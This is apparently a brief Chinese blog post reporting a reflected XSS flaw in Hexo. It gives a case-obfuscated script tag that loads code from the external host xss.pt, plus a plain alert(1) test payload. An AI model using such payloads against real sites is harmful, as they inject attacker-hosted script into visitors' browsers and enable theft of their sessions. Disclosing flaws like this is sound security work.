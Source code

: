 ```yaml
---
title: hexo存在反射型xss一枚
date: 2021-04-17 16:00:24
cover: https://i.loli.net/2021/04/17/W3Qmawdx29n47zc.png
---
```




11<sCRiPt sRC=//xss.pt/Znoj></sCrIpT>直接弹窗了

<script>alert(1)</script>